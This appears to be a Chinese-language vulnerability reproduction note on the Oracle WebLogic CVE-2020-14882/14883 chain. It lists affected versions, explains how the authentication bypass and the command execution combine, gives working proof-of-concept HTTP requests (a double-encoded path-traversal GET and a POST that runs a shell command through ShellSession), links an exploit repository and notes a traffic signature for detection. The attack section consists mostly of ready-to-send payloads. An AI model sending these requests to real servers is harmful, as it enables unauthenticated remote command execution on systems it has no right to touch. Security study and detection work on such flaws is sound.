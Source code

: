 - 10.3.6.0.0
- 12.1.3.0.0
- 12.2.1.3.0
- 12.2.1.4.0
- 14.1.1.0.0

### 漏洞说明

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

### POC

- 未授权访问

```http
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

- 命令执行（touch /tmp/123.txt）

```http
POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
Host: 192.168.19.129:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 138

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/123.txt');")
```

### EXP

> <https://github.com/GGyao/CVE-2020-14882_ALL>

### 流量特征

URL：`/console/images/%252E%252E%252Fconsole.portal`

## 参考文章

> [weblogic漏洞复现整理汇总（vulhub）](https://blog.csdn.net/qq_43593134/article/details/119801840)
>
> [Java安全之初探weblogic T3协议漏洞](https://www.cnblogs.com/nice0e3/p/14201884.html)
